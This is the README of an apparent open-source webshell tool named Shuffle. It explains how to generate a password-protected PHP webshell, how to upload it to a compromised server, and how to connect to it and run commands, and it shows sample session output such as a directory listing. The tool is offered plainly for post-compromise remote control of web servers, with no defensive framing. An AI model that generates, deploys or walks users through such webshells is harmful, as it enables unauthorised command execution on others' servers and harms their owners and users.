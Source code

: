 ![Shuffle Logo](https://raw.githubusercontent.com/matiasmenares/shuffle/master/extras/logo.png)

[![Code Climate](https://codeclimate.com/github/matiasmenares/Shuffle/badges/gpa.svg)](https://codeclimate.com/github/matiasmenares/Shuffle)

### Version
0.2 (Beta)
### Installation

Only you need is Python 2.7

Clone repository
```sh
$ git clone https://github.com/matiasmenares/Shuffle
```
## Getting started
Shuffle 0.1 (Beta) works with Python 2.7 You can run it with:

```sh
$ python shuffle.py -h
```
Command:
  - -g Generate shell
  - -p Setting Password
  - -u Url to connect
  
To create a webshell run:
```sh
$ python shuffle.py -g webshell.php -p h4x0r
```
And Webshell generate in shuffle folder.
```sh
~/shuffle/out/webshell.php
```
### Connecting
When you upload shell to compromise machine only you need is run shell with:

```sh
$ python shuffle.py -u http://localhost/webshell.php -p h4x0r
```

And wait to establish connection...

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$>
```

Now you can run all command !

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$> ls
app
lib
index.php
localhost@apache[~]$> 

```
to close the conection type exit.

```sh
localhost@apache[~]$> exit
#> Connection Closet by user.
$ 
```
## Extras
### Banner
if you want change login banner modify this file:
```sh
~/shuffle/extras/banner.txt
```
### How to Contributing?

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

Done!

License
----

GNU

**Free Software, Hell Yeah!**
